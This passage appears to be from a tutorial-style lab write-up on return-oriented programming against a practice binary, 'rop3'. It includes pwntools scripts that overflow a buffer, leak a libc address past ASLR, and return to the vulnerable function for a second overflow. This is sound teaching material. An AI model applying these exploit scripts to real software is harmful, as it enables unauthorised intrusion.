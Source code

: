 ```python
from pwn import *
context(arch="i686", os="linux")
leak = "A"*140 + "\xa0\x83\x04\x08" + "CCCC" + "\x01\x00\x00\x00" + "\x00\xa0\x04\x08" + "\x04\x00\x00\x00"
exploit = process("./rop3", shell=True)
exploit.sendline(leak)
read_addr = unpack(exploit.recv(4))
print "[+] read is at: " + hex(read_addr)
```

We disregard the warning about the system architecture.
The exploit operates as intended, and subsequent runs result in the display of a different address.
This is caused by ASLR:   

![gdb](images/2022-07-25_07-20.png)   

It is reasonable that the program segfaults due to the return to `0x43434343` if you run it in `gdb`.

How can we exploit the fact that we already have the address of libc (as we have the address of a function in libc)?    

The stack currently contains write arguments because they were not removed. To call another function, such as `read()`, it is necessary to collect ROP gadgets that will clear the stack and set other values there.
Or don't we? 

![gdb](images/4.png)        

Fortunately, there is a simpler method. Instead of `CCCC`(`0x43434343`), we can simply return to the `vulnerable_function`.

The `vulnerable_function` does not take any arguments, so it does not really care about stack arguments. It will perform the vulnerable read operation again, giving us another opportunity to exploit the vulnerability, but this time we know the addresses of the `libc()` items.   


Let's simply add the vulnerable function's address to the exploit:    

![gdb](images/5.png)    

```python
from pwn import *
context(arch="i686", os="linux")
leak = "A"*140 + "\xa0\x83\x04\x08" + "\x74\x84\x04\x08" + "\x01\x00\x00\x00" + "\x00\xa0\x04\x08" + "\x04\x00\x00\x00"
exploit = process("./rop3", shell=True)
exploit.sendline(leak)
read_addr = unpack(exploit.recv(4))
print hex(read_addr)
exploit.sendline(leak)
read_addr2 = unpack(exploit.recv(4))
print hex(read_addr2)
```
